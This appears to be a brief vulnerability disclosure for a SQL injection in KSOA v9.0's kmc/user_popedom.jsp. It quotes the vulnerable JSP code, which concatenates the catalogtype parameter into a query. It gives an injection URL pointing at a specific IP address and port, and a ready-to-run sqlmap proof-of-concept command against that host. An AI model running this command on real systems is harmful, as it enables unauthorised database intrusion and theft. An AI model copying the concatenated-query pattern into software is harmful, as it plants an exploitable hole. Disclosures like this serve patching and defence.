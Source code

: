 # KSOA kmc/user_popedom.jsp Sql Injection


VERSION: v9.0

Exploit Author: hndky


Code

    String catalogtype=ParamUtils.getString(request,"catalogtype",""); 

    <%     
       SQL=" select username,action,usertype,dzyname "
          +" from km_popedom a,zhiydoc b "
          +" where a.username=b.dzyid and folderid='"+ catalogtype +"' ";
       //out.println(SQL);
       rs=DBmenu.executeQuery(SQL);
    %>


Injection：catalogtype

Injection url: http://47.108.238.101:8088/kmc/user_popedom.jsp?catalogtype=1


poc:
python .\sqlmap.py -u "http://47.108.238.101:8088/kmc/user_popedom.jsp?catalogtype=1" --random-agent --dbms=mssql


![image](https://github.com/user-attachments/assets/411f83b4-b5a4-4f78-b6ec-62fa663e46f7)





